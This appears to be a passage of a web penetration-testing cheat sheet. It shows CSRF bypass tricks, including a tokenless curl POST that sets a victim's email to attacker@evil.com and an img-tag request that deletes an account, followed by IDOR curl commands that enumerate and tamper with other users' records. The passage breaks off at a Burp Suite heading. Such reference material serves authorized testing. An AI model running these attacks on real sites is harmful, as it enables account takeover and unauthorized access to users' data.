 ### CSRF Protection Bypass

**Bypass weak CSRF token validation:**

```bash
# 1. Token not tied to user session
# User A's token: csrf_abc123
# User B's token: csrf_xyz789

# User A can use User B's token successfully (vulnerable)

# 2. Token validation only when token is present
curl -X POST http://target.com/settings \
    -b "session=xyz" \
    -d "email=attacker@evil.com"
# No csrf_token parameter = bypassed

# 3. Referer header check bypass
# Use <meta name="referrer" content="no-referrer"> to suppress referer

# 4. Method bypass (POST → GET)
# If application accepts both methods:
<img src="http://target.com/delete-account?confirm=yes&csrf_token=stolen">
```

---

## Access Control & Authorization

### Insecure Direct Object Reference (IDOR)

**Testing methodology:**

```bash
# 1. Sequential ID enumeration
curl http://target.com/api/invoice/1001 -H "Authorization: Bearer USER_A_TOKEN"
curl http://target.com/api/invoice/1002 -H "Authorization: Bearer USER_A_TOKEN"  # Try to access user B's invoice

# 2. Parameter pollution
curl "http://target.com/api/user/123?user_id=124"  # Try to override user_id

# 3. Body parameter modification
curl -X POST http://target.com/api/order \
    -H "Authorization: Bearer USER_A_TOKEN" \
    -d '{"order_id": 999, "user_id": 124}'  # Try to modify another user's order

# 4. UUID/GUID enumeration
curl http://target.com/api/document/f47ac10b-58cc-4372-a567-0e02b2c3d479
# Even if IDs are UUIDs, test if authorization is enforced
```

**Burp Suite - Autorize extension for IDOR:**
